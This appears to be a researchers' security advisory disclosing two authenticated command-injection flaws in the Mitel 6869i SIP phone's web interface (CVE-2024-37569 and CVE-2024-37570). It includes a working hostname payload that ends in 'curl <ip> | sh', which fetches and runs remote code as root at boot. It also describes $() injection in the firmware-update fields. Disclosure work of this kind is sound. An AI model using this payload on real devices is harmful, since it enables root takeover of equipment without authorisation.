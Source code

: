 # Mitel 6869i  4.5.0.41, 5.0.0.1018
Multiple firmware version (4.5.0.41, 5.0.0.1018) of the Mitel 6869i SIP Phone were found to be vulnerable to a authenticated remote command execution (command injection) vulnerability. The web application hosted by the device, fails to properly sanitize user supplied Input resulting in the ability to execute arbitrary commands.

## Authenticated Remote Command Execution (provis)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41, 5.0.0.1018, and earlier fail to properly sanitize user supplied input. The 'Network Settings' (`provis.html`) page does not perform sanitization the ``hostname`` parameter prior to writing the contents to the local configuration file ``/nvdata/etc/local.cfg``.

On devices boot, it is assumed that the ``/nvdata/etc/local.cfg``, or another configuration file containing the modified hostname parameter Is used as apart of a shell script.

By submitting a specially crafted HTTP POST request to the ``/provis.html`` endpoint containing certain characters, arbitrary commands under the user context of root can be executed.

During the boot process, the ``hostname`` parameter is eventually read into a shell script without sanitization, resulting in code execution. For the device to be functional during and after execution, the original `'udhcpc'` command must be set to its original state with any trailing data being nullified.

Using the payload ``QWERTY -t 302400 -T 6 -b -a -i eth0 -s /usr/share/udhcpc/default.script -p /var/run/udhcpc.eth.pid; curl <ip> | sh #`` In the ``hostname`` parameter, the original ``udhcpc`` command is completed, allowing any additional commands to succeed.

A full demonstration against the Mitel 6869i SIP Phone 4.5.0.41 can be viewed on YouTube, at https://www.youtube.com/watch?v=I9TQqfP5qzM.

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 

**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828

**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909

### CVE-ID
CVE-2024-37569

### Credit
Kyle Burns (kburns@packetlabs.net), Eric Salario (esalario@packetlabs.net), Michael Alampi (malampi@packetlabs.net) 

## Authenticated Remote Command Execution (firmware)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41 fails to properly sanitize user supplied input. The 'Manual Firmware Update' (`upgrade.html`) page does not perform sanitization the `username` and `path` parameter prior to appending the flags to the busybox `ftpget` command. 

![source](Mitel/5.0.0.1018/images/01.png)

By sending a specially crafted HTTP POST request containing command substitution syntax (`$()`) to the endpoint `upgrade.html` arbitrary commands can be executed.  

![source](Mitel/5.0.0.1018/images/02.png)

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828

### CVE-ID
CVE-2024-37570

### Credit
Kyle Burns (kburns@packetlabs.net)
